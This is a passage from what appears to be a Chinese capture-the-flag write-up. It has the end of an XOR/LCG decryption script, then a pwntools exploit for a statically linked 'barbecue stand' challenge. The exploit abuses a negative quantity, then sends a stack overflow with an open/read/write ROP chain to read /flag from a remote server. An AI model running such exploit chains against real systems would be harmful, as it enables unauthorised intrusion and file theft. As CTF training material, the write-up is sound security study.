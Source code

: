 ```python
gen_key = []
for i in range(l):
    s = ''
    for j in range(8):
        if type(key[x])==int:
            s += str(key[x])
        else:
            s += key[x][1:]
        x = (A*x+B)%M
    gen_key.append(int(s, 2))

hex_values = [int(c[i:i+2], 16) for i in range(0, len(c), 2)]
for i in range(len(hex_values)):
    print(chr(hex_values[i]^gen_key[i]), end='')
```

## PWN
### day1 烧烤摊儿
静态编译栈溢出 没system没exec 标准ORW
```python
from pwn import *

p = remote("123.56.99.60", 26637)
e = ELF('shaokao')

p.sendlineafter(b'>', b'1\n1\n-9999')
p.sendlineafter(b'>', b'4')
p.sendlineafter(b'>', b'5')
context.arch = 'amd64'
r = ROP(e)
flag_str = b'/flag\x00'
r.call(e.symbols['read'], [0, e.bss() + 100, len(flag_str)])
r.call(e.symbols['open'], [e.bss() + 100, 0, 0])
r.call(e.symbols['read'], [3, e.bss() + 100, 100])
r.call(e.symbols['write'], [1, e.bss() + 100, 0x101])
r.call(e.symbols['write'], [1, e.bss() + 100, len(flag_str)*9])
p.sendline(b'a' * (0x20 + 8) + r.chain())
p.sendline(flag_str)
#gdb.attach(p)
p.interactive()
```
![picture 2](images/c088ce8eea97c0b41a4ecb4ee26dfe661ee4cddcc0b2b0782dd70797a04accba.png)  
